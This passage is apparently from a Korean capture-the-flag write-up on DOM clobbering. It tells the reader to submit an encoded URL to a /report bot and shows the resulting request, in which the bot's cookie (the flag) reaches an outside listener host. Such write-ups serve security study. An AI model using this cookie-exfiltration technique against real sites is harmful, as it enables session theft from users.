 ![7. Dom clobbering 10](/assets/images/writeup/web-hacking/knock-on/7_DOM_10.png)

`/report`에서 `"practive?content=..."`형식의 인코딩된 URL을 넘겨주면 됨

|

|

### 결과

---

```sh
GET /cookie=K0%7Bcl0bb3r1ng_4_D00M_w1th_D0M%7D HTTP/1.1
Host: 20.41.120.97:10010
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/126.0.6478.126 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:10010/
Accept-Encoding: gzip, deflate

```

|

|
